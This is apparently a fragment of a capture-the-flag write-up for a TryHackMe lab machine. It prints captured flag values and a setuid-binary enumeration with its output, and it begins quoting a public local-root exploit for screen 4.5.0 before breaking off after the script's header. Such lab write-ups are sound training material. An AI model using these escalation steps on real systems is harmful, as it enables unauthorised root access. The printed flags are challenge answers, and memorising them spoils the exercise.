 Flag 3- thm{58a3cb46855af54d0660b34fd20a04c1}


ramen@foodctf:/home/bread$ ls -la
total 7900
drwxr-xr-x 6 bread bread    4096 Apr  6  2020 .
drwxr-xr-x 7 root  root     4096 Mar 28  2020 ..
-rw------- 1 bread bread       5 Apr  6  2020 .bash_history
-rw-r--r-- 1 bread bread     220 Mar 20  2020 .bash_logout
-rw-r--r-- 1 bread bread    3771 Mar 20  2020 .bashrc
drwx------ 2 bread bread    4096 Mar 20  2020 .cache
----r--r-- 1 bread bread      38 Mar 28  2020 flag
drwx------ 3 bread bread    4096 Mar 20  2020 .gnupg
drwxrwxr-x 3 bread bread    4096 Mar 20  2020 .local
-rwxrwxr-x 1 bread bread 8037916 Apr  6  2020 main
-rw-rw-r-- 1 bread bread    1513 Apr  6  2020 main.go
-rw-r--r-- 1 bread bread     825 Mar 28  2020 .profile
drwxrwxr-x 3 bread bread    4096 Apr  6  2020 resources
ramen@foodctf:/home/bread$ cat flag
thm{7baf5aa8491a4b7b1c2d231a24aec575}


Flag 4 - thm{7baf5aa8491a4b7b1c2d231a24aec575}



ramen@foodctf:~$ find / -perm -u=s -type f 2>/dev/null
/bin/ping
/bin/su
/bin/umount
/bin/mount
/bin/fusermount
/usr/bin/chsh
/usr/bin/newuidmap
/usr/bin/pkexec
/usr/bin/at
/usr/bin/vim.basic                                                                                                      
/usr/bin/passwd                                                                                                         
/usr/bin/traceroute6.iputils                                                                                            
/usr/bin/gpasswd                                                                                                        
/usr/bin/sudo                                                                                                           
/usr/bin/newgrp                                                                                                         
/usr/bin/newgidmap                                                                                                      
/usr/bin/screen-4.5.0


screen-4.5.0 has a exploit which can help us escalate our privileges to root.

THe exploit goes like this:

#!/bin/bash
# screenroot.sh
# setuid screen v4.5.0 local root exploit
# abuses ld.so.preload overwriting to get root.
# bug: https://lists.gnu.org/archive/html/screen-devel/2017-01/msg00025.html
# HACK THE PLANET
# ~ infodox (25/1/2017)
echo "~ gnu/screenroot ~"
